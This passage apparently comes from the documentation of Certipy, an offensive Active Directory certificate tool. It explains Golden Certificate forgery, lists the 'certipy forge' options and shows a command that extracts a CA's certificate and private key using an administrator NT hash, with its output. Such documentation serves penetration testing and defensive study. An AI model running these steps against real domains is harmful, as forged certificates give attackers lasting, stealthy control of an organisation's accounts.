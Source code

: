 This action is useful if you just want the NT hash or TGT for further authentication. It is possibly to manually add, authenticate, and delete the Key Credential, if desired. See the usage or [blog post](https://research.ifcr.dk/34d1c26f0dc6) for more information. 

### Golden Certificates

Golden Certificates are certificates that are manually forged with a compromised CA's certificate and private key, just like Golden Tickets are forged with a compromised `krbtgt` account's NT hash.

```
Certipy v4.0.0 - by Oliver Lyak (ly4k)

usage: certipy forge [-h] -ca-pfx pfx/p12 file name [-upn alternative UPN] [-dns alternative DNS] [-template pfx/p12 file name] [-subject subject] [-issuer issuer] [-crl ldap path] [-serial serial number] [-key-size RSA key length] [-debug] [-out output file name]

optional arguments:
  -h, --help            show this help message and exit
  -ca-pfx pfx/p12 file name
                        Path to CA certificate
  -upn alternative UPN
  -dns alternative DNS
  -template pfx/p12 file name
                        Path to template certificate
  -subject subject      Subject to include certificate
  -issuer issuer        Issuer to include certificate. If not specified, the issuer from the CA cert will be used
  -crl ldap path        ldap path to a CRL
  -serial serial number
  -key-size RSA key length
                        Length of RSA key. Default: 2048
  -debug                Turn debug output on

output options:
  -out output file name
```

In order to forge a certificate, we need the CA's certificate and private key.

Certipy can automatically retrieve the certificate and private key with the `-backup` parameter. In order to do so, the user must have administrative privileges on the CA server.

```bash
$ certipy ca -backup -ca 'corp-DC-CA' -username administrator@corp.local -hashes fc525c9683e8fe067095ba2ddc971889
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Creating new service
[*] Creating backup
[*] Retrieving backup
[*] Got certificate and private key
[*] Saved certificate and private key to 'CORP-DC-CA.pfx'
[*] Cleaning up
```
